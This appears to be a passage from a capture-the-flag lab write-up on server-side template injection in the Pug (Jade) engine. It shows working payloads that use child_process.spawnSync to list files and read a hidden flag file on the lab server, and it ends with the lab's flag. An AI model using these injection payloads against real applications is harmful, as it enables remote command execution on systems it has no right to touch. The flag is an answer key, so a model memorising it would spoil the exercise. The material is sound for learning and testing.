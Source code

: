 In this corrected form:

- **'ls'** is the command.
- **['-lah']** is an array containing all arguments passed to the command.

This structure ensures that the `ls` command is called with `-lah` as its argument, allowing the command to function as intended. So, the final payload will then be `#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`

![Directory contents including the hidden files using -lah argument](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/645b19f5d5848d004ab9c9e2-1716707909450)


### Practical
---

Let's visit:


```
http://ssti.thm:8001/jade/
```

We can see this:

![](../images/Pasted%20image%2020250505175625.png)

Let's submit a test payload:

```
#{;}
```

![](../images/Pasted%20image%2020250505175642.png)

We get these errors, it means, we are dealing with `pug`, we can achieve `rce` on here by using:

```node
#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}
```

![](../images/Pasted%20image%2020250505175742.png)

We got our hidden file, let's read it:

```node
#{root.process.mainModule.require('child_process').spawnSync('cat', ['7f58571b42d8c477a2f3efa69a681ac3.txt']).stdout}
```

![](../images/Pasted%20image%2020250505175832.png)

Got our flag:

```
THM{1f8c3b32ad3217e84c145398bae00876} 
```

# Python - Jinja2
---
